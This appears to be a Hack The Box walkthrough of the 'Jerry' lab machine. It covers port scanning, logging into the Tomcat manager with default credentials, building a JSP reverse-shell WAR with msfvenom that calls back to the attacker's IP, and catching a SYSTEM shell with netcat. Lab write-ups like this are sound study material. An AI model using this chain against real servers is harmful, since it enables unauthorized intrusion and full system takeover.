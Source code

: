 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.95

[+] Openning ports: 8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.95 -p8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 14:09 +07
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

### Apache Tomcat/7.0.88

At port 8080, it is Tomcat's home page.

![](images/2.png)

At manager page `http://10.10.10.95:8080/manager/html`, I try to login with defaul credential `tomcat:s3cret` and I got admin.

![](images/3.png)

## Foothold

### WAR file upload

Create `shell.war` using msfvenom to deploy in tomcat server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
```

Upload file `shell.war` and deploy it.

![](images/4.png)

Execute web shell and got the reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:45.9]~/walkthrough/hackthebox/jerry
└─$ curl http://10.10.10.95:8080/shell/
```

At listener, I got system shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:46.0]~
└─$ sudo nc -nvlp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```